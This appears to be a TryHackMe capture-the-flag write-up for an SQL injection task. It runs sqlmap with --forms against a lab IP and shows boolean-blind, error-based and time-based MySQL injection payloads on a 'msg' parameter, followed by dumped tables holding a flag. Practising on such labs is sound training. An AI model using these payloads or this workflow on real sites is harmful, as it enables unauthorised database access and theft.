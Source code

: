 **Note:** As there are various ways to check for sql injection, and it would be difficult to properly convey how to test for sqli given each situation, there will be no questions for this task.

## Task 18 [Section 5 - SQL Injection]: Vulnerable Web Application
```
export IP=10.10.167.62
```

1. Set the url to the machine ip, and run the command
```bash
jeffrowell@kali:~/Documents/TryHackMe/CC: Pen Testing$ sqlmap -u http://$IP --forms
```

2. How many types of sqli is the site vulnerable too?
```
3
```
```bash
POST parameter 'msg' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 367 HTTP(s) requests:
 ---
Parameter: msg (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: msg=ThVL' RLIKE (SELECT (CASE WHEN (3746=3746) THEN 0x5468564c ELSE 0x28 END))-- bmCH
    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: msg=ThVL' OR (SELECT 3387 FROM(SELECT COUNT(*),CONCAT(0x716b7a7671,(SELECT (ELT(3387=3387,1))),0x717a6a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Mtlf
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: msg=ThVL' AND (SELECT 2174 FROM (SELECT(SLEEP(5)))EAVn)-- mAaO
 ---
```

3. Dump the database.
```SQL
Database: tests
Table: lol
[1 entry]
 +----------+
 | flag     |
 +----------+
 | found_me |
 +----------+
```
```SQL
Database: tests
Table: msg
[2 entries]
 +------+
 | msg  |
 +------+
 | msg  |
 | test |
 +------+
```
